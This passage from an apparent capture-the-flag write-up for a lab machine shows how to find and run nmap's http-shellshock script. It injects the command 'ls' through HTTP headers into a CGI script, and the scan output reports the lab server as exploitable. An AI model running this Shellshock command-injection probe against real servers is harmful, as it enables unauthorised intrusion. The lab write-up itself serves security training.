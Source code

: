 This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted document request.
Shellshock affects bash 1.0.3-4.3 [from this page](https://packages.ubuntu.com/xenial/allpackages) we can see that shellshock maybe is unavailable for this version of Ubuntu.  
Let's check it anyway, using the dedicated nmap plugin
```
[root@kali Shocker ]$ locate .nse | grep shellshock
/usr/share/nmap/scripts/http-shellshock.nse
```
Now we can open this nmap plugin and see how to run this:
```
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls $TARGET
```
And we do get the following output and see that the target is vulnerable to shellshock
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
|   </body></html>
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
|_http-server-header: Apache/2.4.18 (Ubuntu)
```
